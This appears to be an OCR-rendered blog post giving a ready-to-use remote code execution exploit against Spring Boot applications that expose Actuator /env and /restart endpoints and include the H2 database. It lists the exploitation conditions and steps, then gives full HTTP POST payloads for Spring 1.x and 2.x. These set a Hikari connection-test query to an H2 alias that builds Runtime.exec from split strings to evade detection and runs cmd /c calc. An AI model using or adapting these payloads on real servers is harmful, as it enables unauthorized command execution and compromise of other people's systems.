 ### h2 Database Query RCE

**[](https://www.blogger.com/#)Conditions of use:**

- You can POST requests to the /envinterface set properties

- You can restart the application by POST requesting the /restartinterface (there is a spring-boot-starter-actuator dependency)

- Existing com.h2database.h2dependencies (version requirements are currently unknown)

**How to use:**\
[](https://www.blogger.com/#)**Step 1:** Set the spring.datasource.hikari.connection-test-query property

- The 'T5' method in the payload below needs to be renamed (such as T6) after each command is executed before it can be recreated and used, otherwise, the vulnerability will not be triggered when the application is restarted next time

**spring 1.x (execute the command without echo)**

|

POST /env

Content-Type: application/x-www-form-urlencoded

spring.datasource.hikari.connection-test-query=CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');

 |

**\
**

**spring 2.x (execute command without echo)**

|

1

2

3

4

5

 |

POST /actuator/env

Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"}
